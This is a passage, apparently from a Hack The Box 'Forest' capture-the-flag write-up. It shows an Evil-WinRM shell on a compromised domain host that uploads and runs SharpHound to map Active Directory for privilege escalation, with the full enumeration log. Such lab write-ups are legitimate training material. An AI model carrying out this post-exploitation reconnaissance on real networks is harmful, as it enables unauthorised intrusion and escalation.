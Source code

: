 <a id="org113ade2"></a>

# Privesc to Administrator

First we create a docker bloodhound environment

    curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && docker-compose -f docker-compose.yml up

Once configured and downloaded sharphound all we have to do is upload it to the machine.

    *Evil-WinRM* PS C:\Users\svc-alfresco> upload ../../Tools/SharpHound.exe ./
    
    Info: Uploading /home/kali/CTF/HTB/../../Tools/SharpHound.exe to C:\Users\svc-alfresco\
    
    Data: 1395368 bytes of 1395368 bytes copied
    
    Info: Upload successful!

And run it.

    *Evil-WinRM* PS C:\Users\svc-alfresco> ./SharpHound.exe
    2023-12-06T12:27:53.1805948-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
    2023-12-06T12:27:53.6649703-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    2023-12-06T12:27:53.7899651-08:00|INFORMATION|Initializing SharpHound at 12:27 PM on 12/6/2023
    2023-12-06T12:27:54.2587185-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
    2023-12-06T12:27:54.3993665-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    2023-12-06T12:27:55.0712426-08:00|INFORMATION|Beginning LDAP search for htb.local
    2023-12-06T12:27:55.2274778-08:00|INFORMATION|Producer has finished, closing LDAP channel
    2023-12-06T12:27:55.2274778-08:00|INFORMATION|LDAP channel closed, waiting for consumers
    2023-12-06T12:28:25.9307033-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
    2023-12-06T12:28:53.4932225-08:00|INFORMATION|Consumers finished, closing output channel
    Closing writers
    2023-12-06T12:28:53.5401294-08:00|INFORMATION|Output channel closed, waiting for output task to complete
    2023-12-06T12:28:53.6339737-08:00|INFORMATION|Status: 162 objects finished (+162 2.793103)/s -- Using 46 MB RAM
    2023-12-06T12:28:53.6339737-08:00|INFORMATION|Enumeration finished in 00:00:58.5727868
    2023-12-06T12:28:53.7119877-08:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
     118 name to SID mappings.
     0 machine sid mappings.
     2 sid to domain mappings.
     0 global catalog mappings.
     2023-12-06T12:28:53.7276115-08:00|INFORMATION|SharpHound Enumeration Completed at 12:28 PM on 12/6/2023! Happy Graphing!

Let's download them from the victim and uplod them on bloodhound.

We have a nice root to follow.